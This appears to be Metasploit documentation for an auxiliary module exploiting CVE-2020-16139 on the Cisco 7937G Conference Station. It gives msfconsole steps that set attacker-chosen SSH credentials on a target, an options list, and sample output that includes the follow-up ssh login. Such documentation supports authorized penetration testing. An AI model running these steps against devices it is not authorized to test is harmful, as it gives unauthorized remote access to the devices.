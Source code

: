 ## Vulnerable Application

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable Web Access and SSH Access on the device.
  3. It has been observed that based on the firmware available from Cisco, all version are likely vulnerable.

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/dos/cisco/CVE-2020-16139`
  3. Do: `set RHOSTS 192.168.1.10`
  4. Do: `set USER test`
  5. Do: `set PASS test`
  6. Do: `run`
  7. The conference station's SSH service should now be configured with the supplied USER:PASS.

## Options

  1. PASS (required) - Desired password
  2. RHOSTS (required) - Target address
  3. THREADS (default 1, required) - The number of concurrent threads (max one per host)
  4. TIMEOUT (default 5, required) - Timeout in seconds before aborting
  5. USER (required) - Desired username

## Scenarios

#### Successful Scenario
```
[*] Running for 192.168.110.209...
[*] 192.168.110.209 - Attempting to set SSH credentials.
[*] 192.168.110.209 - SSH attack finished!
[*] 192.168.110.209 - Try to login using the supplied credentials test:test
[*] 192.168.110.209 - You must specify the key exchange when connecting or the device will be DoS'd!
[*] 192.168.110.209 - ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 test@192.168.110.209
```

#### Unsuccessful Scenario
```
[*] Running for 192.168.110.209...
[*] 192.168.110.209 - Attempting to set SSH credentials.
[-] 192.168.110.209 - Device doesn't appear to be functioning or web access is not enabled.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
